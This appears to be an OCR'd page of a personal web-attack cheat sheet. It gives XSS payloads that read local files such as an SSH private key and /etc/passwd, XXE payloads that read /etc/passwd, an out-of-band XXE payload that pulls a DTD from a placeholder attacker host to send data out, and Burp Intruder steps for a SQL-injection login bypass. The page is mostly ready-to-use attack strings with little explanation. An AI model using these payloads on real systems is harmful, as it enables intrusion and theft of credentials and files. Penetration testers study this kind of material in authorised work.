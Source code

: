 ```
```

### XSS

```
<script>alert("XSS")</script>
<script>alert(1)</script>

https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html?m=1

" <script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText.fontsize(1)) }; x.open("GET","file:///home/reader/.ssh/id_rsa"); x.send(); </script>

" <script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open("GET","file:///etc/passwd"); x.send(); </script>

# XXE

XML entry that reads server, Doctype, change to entity "System "file:///etc/passwd""

Instead POST:

<?xml version="1.0" ?>
    <!DOCTYPE thp [
        <!ELEMENT thp ANY>
        <!ENTITY book "Universe">
    ]>
    <thp>Hack The &book;</thp>

Malicious XML:

<?xml version="1.0" ?><!DOCTYPE thp [ <!ELEMENT thp ANY>
<!ENTITY book SYSTEM "file:///etc/passwd">]><thp>Hack The
%26book%3B</thp>

XXE OOB

<?xml version="1.0"?><!DOCTYPE thp [<!ELEMENT thp ANY >
<!ENTITY % dtd SYSTEM "http://[YOUR_IP]/payload.dtd"> %dtd;]>
<thp><error>%26send%3B</error></thp>
```

### Sql-login-bypass

- Open Burp-suite
- Make and intercept a request
- Send to intruder
- Cluster attack.
- Paste in sqlibypass-list (https://bobloblaw.gitbooks.io/security/content/sql-injections.html)
- Attack
- Check for response length variation
